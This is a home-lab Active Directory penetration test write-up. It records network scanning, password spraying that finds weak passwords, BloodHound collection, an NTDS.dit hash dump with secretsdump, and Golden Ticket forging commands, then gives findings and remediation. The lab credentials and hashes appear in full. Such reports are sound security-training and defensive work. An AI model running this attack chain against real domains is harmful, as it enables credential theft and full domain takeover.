# Internal Active Directory Penetration Test
**Environment:** Home lab — `home.lab` domain  
**Date:** 05 May 2026  
**Tester:** Leonard Iacob  
**Type:** Grey box — network access given, no credentials  

---

## Overview

Ran a full internal network penetration test against a Windows Server 2022 Active Directory environment. Starting with no credentials and only network access, got from initial recon to full domain compromise, including a dump of all credential hashes from the domain controller.

**Result:** Domain Admin compromised. All domain credentials exposed.

---

## Scope

| Target | IP | Role |
|---|---|---|
| WIN-MK91UQ6B380 | 10.10.10.30 | Domain Controller |
| DESKTOP-9DT5GJP | 10.10.10.50 | Workstation |
| WIN10-CLIENT1 | (offline) | Workstation |

**Domain:** `home.lab`  
**Attacker:** Parrot OS — `10.10.10.10`

---

## Methodology

Followed the PTES (Penetration Testing Execution Standard) phases:

1. Reconnaissance
2. Scanning & Enumeration
3. Exploitation
4. Post-Exploitation
5. Reporting

---

## Attack Chain

### 1. Network Discovery

Started with a host sweep to find live machines on the segment.

```bash
sudo nmap -sn 10.10.10.0/24
```

Found three hosts: the DC (10.10.10.30), a workstation (10.10.10.50), and the attacker machine.

---

### 2. Service Enumeration

Ran a targeted port scan against the DC focusing on Windows/AD-relevant ports.

```bash
sudo nmap -sV -sC -p 88,135,139,389,445,636,3389 10.10.10.30
```



**What this told us:**
- Port 88 (Kerberos) confirmed this is a Domain Controller
- Port 389 (LDAP) — domain name: `home.lab`
- Port 445 (SMB) open, signing **required** — rules out SMB relay attacks
- Port 3389 (RDP) **closed** — no direct remote access without credentials
- OS: Windows Server 2022 Build 20348

---

### 3. SMB Null Session Enumeration

Checked whether the DC allowed unauthenticated SMB access.

```bash
nxc smb 10.10.10.30 -u '' -p '' --users
```



Connected but returned no users — anonymous enumeration blocked. Moved to RPC, which also returned `NT_STATUS_ACCESS_DENIED`.

---

### 4. Password Spraying — Initial Foothold

With anonymous access blocked, sprayed common passwords against known usernames. Used a low-and-slow approach to avoid triggering lockouts.

```bash
nxc smb 10.10.10.30 -u 'jsmith' -p 'Password1'
```



`[+] home.lab\jsmith:Password1` — valid credentials found.

---

### 5. Domain User Enumeration

Used jsmith's credentials to enumerate all domain accounts.

```bash
nxc smb 10.10.10.30 -u 'jsmith' -p 'Password1' --users
```



**Users found:**

| Username | Last PW Set | Notes |
|---|---|---|
| Administrator | 2026-04-24 | Domain admin |
| Guest | Never | Disabled |
| krbtgt | 2026-04-24 | KDC service account |
| jsmith | 2026-04-24 | Our current user |
| bjones | Never | Password never set |

---

### 6. Kerberoasting & AS-REP Roasting Attempts

Checked for service accounts with SPNs (Kerberoasting) and accounts with pre-auth disabled (AS-REP roasting).

```bash
impacket-GetUserSPNs home.lab/jsmith:Password1 -dc-ip 10.10.10.30 -request
impacket-GetNPUsers home.lab/ -usersfile /tmp/users.txt -no-pass -dc-ip 10.10.10.30
```



No SPNs found, pre-auth enabled on all accounts. Neither attack returned hashes. Moved on.

---

### 7. SMB Share & Group Enumeration

Mapped accessible shares and domain group structure.

```bash
nxc smb 10.10.10.30 -u 'jsmith' -p 'Password1' --shares
nxc smb 10.10.10.30 -u 'jsmith' -p 'Password1' --groups
```




**Readable shares:** NETLOGON, SYSVOL, IPC$  
**Notable groups:** Administrators (3 members), Domain Admins (1 member), Enterprise Admins (1 member)

jsmith had no write access to ADMIN$ or C$, so PSExec failed. WinRM also returned `WinRMAuthorizationError` — jsmith not in Remote Management Users.

---

### 8. SYSVOL Enumeration

SYSVOL is readable by all authenticated domain users. Checked for Group Policy Preferences (GPP) files, which historically stored encrypted passwords with a publicly-known decryption key.

```bash
smbclient //10.10.10.30/SYSVOL -U 'home.lab/jsmith%Password1'
```





Found two Group Policy objects, standard `GptTmpl.inf` and `Registry.pol` files. No `Groups.xml` — no GPP credentials stored.

---

### 9. Privilege Escalation Attempts

Tried several paths to escalate from jsmith to a higher-privileged account:

```bash
impacket-psexec home.lab/jsmith:Password1@10.10.10.30   # Failed — no write to ADMIN$
nxc smb 10.10.10.50 -u 'jsmith' -p 'Password1'          # Failed — SMB timed out
nxc smb 10.10.10.30 -u 'bjones' -p ''                   # Failed — blank password rejected
```



jsmith confirmed as a standard domain user — no local admin on any machine, no lateral movement available through this account alone.

---

### 10. BloodHound Collection

Ran bloodhound-python to collect AD object data for attack path analysis.

```bash
~/.local/bin/bloodhound-python -u jsmith -p Password1 -d home.lab -dc WIN-MK91UQ6B380.home.lab -ns 10.10.10.30 -c all
```





**Collected:** 6 users, 52 groups, 3 computers, 2 GPOs, 19 containers, 2 OUs  
Seven JSON files generated for import into BloodHound for attack path visualisation.

---

### 11. Domain Admin Compromise

Password-sprayed the Administrator account with common passwords.

```bash
nxc smb 10.10.10.30 -u 'Administrator' -p 'Admins12!' 'Password1' 'Admin123!'
```



`[+] home.lab\Administrator:Admins12! (Pwn3d!)`

The `(Pwn3d!)` flag confirms write access to ADMIN$ — full local admin on the DC.

---

### 12. NTDS.dit Credential Dump

With domain admin credentials, dumped all credential hashes from the DC using the DRSUAPI method (replicates the NTDS.dit database remotely — no file copy needed).

```bash
impacket-secretsdump home.lab/Administrator:'Admins12!'@10.10.10.30
```




**Dumped:**
- All domain account NTLM hashes
- Kerberos AES-256 and AES-128 keys for every account
- DPAPI master keys
- LSA secrets
- Cached domain credentials

**Key hashes:**

| Account | NTLM Hash |
|---|---|
| Administrator | `76c27df6c37bc780a2558a31130e30f3` |
| krbtgt | `2e7a8a36f6344803c47ba79b7167c64e` |
| jsmith | `64f12cddaa88057e06a81b54e73b949b` |
| bjones | `58a478135a93ac3bf058a5ea0e8fdb71` |

---

## What's Next — Golden Ticket

The krbtgt account hash is the most significant item from the dump. krbtgt is the Key Distribution Center service account — it signs every Kerberos ticket issued in the domain. With its hash, you can forge a **Golden Ticket**: a Kerberos TGT for any user, valid for any service, that the domain will accept as legitimate.

```bash
# Get the domain SID first
impacket-getPac home.lab/jsmith:Password1 -targetUser Administrator

# Forge a Golden Ticket as Administrator
impacket-ticketer -nthash 2e7a8a36f6344803c47ba79b7167c64e \
  -domain-sid S-1-5-21-<domain-sid> \
  -domain home.lab \
  Administrator

# Use the ticket
export KRB5CCNAME=Administrator.ccache
impacket-psexec -k -no-pass home.lab/Administrator@WIN-MK91UQ6B380.home.lab
```

**Why this matters:** Golden Tickets survive password resets. Even if every user password in the domain is changed after an incident, the Golden Ticket remains valid until the krbtgt password is rotated — which requires two rotations 10 hours apart to fully invalidate existing tickets. Most organisations don't know to do this, and many have never rotated krbtgt at all.

---

## Findings

### FIND-01 — Weak Domain Administrator Password
**Severity:** Critical  
**CVSS Score:** 9.8  

The domain Administrator account used a weak, guessable password (`Admins12!`). A password spray with a small wordlist found it in seconds. Full domain compromise followed immediately.

**Impact:** Any attacker with network access can become Domain Admin. All systems, all data, all accounts are exposed.

**Remediation:**
- Set a minimum 16-character passphrase for all privileged accounts
- Enforce password complexity via Group Policy
- Use a Privileged Access Workstation (PAW) for admin tasks
- Consider a tiered admin model — Domain Admins should not be used for day-to-day tasks

---

### FIND-02 — Weak Domain User Password
**Severity:** High  
**CVSS Score:** 7.5  

The domain user `jsmith` had the password `Password1`. This was found in the first pass of a common-password spray.

**Impact:** Any authenticated foothold on the domain — from here, an attacker can enumerate users, shares, and run BloodHound to map further attack paths.

**Remediation:**
- Enforce password complexity and minimum length (12+ characters) via Default Domain Policy
- Consider a banned password list (Microsoft Entra Password Protection can be deployed on-prem)

---

### FIND-03 — No Account Lockout Policy
**Severity:** High  
**CVSS Score:** 7.5  

No account lockout policy was configured. Password spraying ran without any throttling or lockout, making it trivial to test unlimited password combinations without detection.

**Impact:** Allows unlimited brute-force and spray attempts against any account.

**Remediation:**
- Set lockout threshold to 5–10 failed attempts
- Set lockout duration to 15–30 minutes (or until admin reset for privileged accounts)
- Configure Fine-Grained Password Policies for privileged accounts with stricter settings

---

### FIND-04 — SYSVOL Readable by All Domain Users
**Severity:** Low  
**CVSS Score:** 3.1  

SYSVOL is accessible to all authenticated domain users by default. No GPP credentials were found in this environment, which is good. However, it's worth auditing SYSVOL contents periodically as scripts and policy files can accumulate sensitive data over time.

**Impact:** Low in isolation. If GPP passwords, credentials in scripts, or sensitive configuration files are ever placed in SYSVOL, all domain users can read them.

**Remediation:**
- Audit SYSVOL contents regularly
- Never store credentials in Group Policy scripts or preferences
- If GPP passwords exist anywhere in SYSVOL, rotate those credentials immediately and run `Get-GPPPassword` to find them

---

## Remediation Summary

| Finding | Severity | Fix |
|---|---|---|
| Weak domain admin password | Critical | 16+ char passphrase, enforce complexity |
| Weak domain user password | High | Enforce password policy, banned password list |
| No account lockout policy | High | Lockout after 5–10 failed attempts |
| SYSVOL readable | Low | Audit contents, never store credentials there |

---

## Tools Used

| Tool | Purpose |
|---|---|
| Nmap | Network discovery, port scanning, service detection |
| netexec (nxc) | SMB enumeration, credential testing, share access |
| smbclient | Manual SYSVOL browsing |
| rpcclient | RPC null session enumeration attempt |
| impacket-GetUserSPNs | Kerberoasting |
| impacket-GetNPUsers | AS-REP roasting |
| bloodhound-python | Active Directory object collection |
| impacket-secretsdump | NTDS.dit credential dump via DRSUAPI |
| impacket-psexec | Remote execution attempt |
| evil-winrm | WinRM shell attempt |
